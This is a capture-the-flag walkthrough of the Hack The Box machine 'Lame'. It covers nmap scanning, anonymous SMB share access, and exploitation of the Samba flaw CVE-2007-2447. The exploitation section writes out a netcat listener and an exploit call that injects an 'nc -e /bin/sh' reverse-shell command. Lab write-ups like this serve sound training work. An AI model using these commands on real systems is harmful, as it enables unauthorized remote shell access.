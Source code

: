# Lame (HTB, Beginner Track)

## Enumeration

Let’s start to examine the ports and services first,

### NMAP

**command:**

```bash
nmap -Pn -A -T4 [ip-address]
```

**option used:**

| Options | Usage |
| --- | --- |
| -Pn | Treat all hosts as online -- skip host discovery |
| -A | Enable OS detection, version detection, script scanning, and traceroute |
| -T4 | Set timing template (higher is faster) |

![img01.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img01.png)

- Found port **21,22,139,445** are opened and running **vsftpd 2.3.4, OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0), Samba smbd 3.X - 4.X, Samba smbd 3.0.20-Debian** services respectively.

### FTP

- Let’s first try to login into FTP, check whether **anonymous** login attempt works fine or not!

![img02.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img02.png)

- We’ve tried the **anonymous login attempt** on the target, but it seems there isn’t anything available to us.

### SMBCLIENT

- Let’s check the shared folder through **smbclient:**

**command:**

```bash
smbclient -L [ip-address]
```

![img03.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img03.png)

- There are two shared folders we found to be accessible to us.
- Let’s try to access it, without any credentials again:

**NOTE:** *Before accessing file the shared folder of the target make sure that you’ve, desired settings configured in your **/etc/samba/smb.conf** file.*

👉🏼 [**for more information**](https://wiki.archlinux.org/title/Samba#Protocol_negotiation_failed:_NT_STATUS_INVALID_NETWORK_RESPONSE) 👈🏼

**command:**

```bash
smbclient '\\[ip-address]\tmp' 
```

![img04.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img04.png)

- There is a anonymous login is successful again!

## Exploitation

### ****[CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/)****

👉🏼 **[python-exploit](https://github.com/Ziemni/CVE-2007-2447-in-Python/blob/master/smbExploit.py)** 👈🏼

- Download the above script and save it your computer.
- Then run a netcat listener on your terminal:

**command:**

```bash
nc -lvnp 1234
```

| Options | Usage |
| --- | --- |
| l, --listen | listen mode, for inbound connects |
| v, --verbose | verbose (use twice to be more verbose) |
| n, --dont-resolve | numeric-only IP addresses, no DNS |
| p, --local-port=NUM | local port number |
- Now, you can run the script as follows 👇🏼

**command:**

```bash
python3 smbExploit.py 192.168.1.2 'nc -e /bin/sh 192.168.1.1 1234'
```

- And within a moment we’ll have a connection from our target!

![img05.png](Lame%20(HTB,%20Beginner%20Track)%2000795692c37d493dbfc98c2cb1f48983/img05.png)

**DONE!**

